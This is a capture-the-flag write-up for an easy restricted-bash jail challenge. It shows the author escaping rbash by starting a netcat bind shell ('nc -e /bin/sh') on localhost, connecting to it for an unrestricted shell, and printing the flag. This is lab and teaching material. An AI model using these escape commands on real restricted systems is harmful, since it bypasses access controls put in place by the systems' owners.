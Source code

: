 # Rbash Warmup
### JAIL - Easy

Welcome to the restricted shell! Demonstrate RCE on this rbash setup by running the /flag binary executable, and you will be awarded with the flag!
Connect via TCP:rbash-warmup.sdc.tf:1337

By k3v1n


## Solution

After testing available commands for this version of restricted bash, I saw that you can you nc. Great! I started server process in the background:
```shell
$ nc rbash-warmup.sdc.tf 1337
rbash-5.0$ nc -lv -p 4000 -s 127.0.0.1 -e /bin/sh & 

[1] 3
listening on [127.0.0.1] 4000 ...
```

Then I used nc again to connect to this server and use normal sh instead of restricted version:
```shell
rbash-5.0$ nc 127.0.0.1 4000
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 58068

/flag
sdctf{nc--e-IS-r3aLLy-D4NG3R0U5!}
```

#### Flag: sdctf{nc--e-IS-r3aLLy-D4NG3R0U5!}
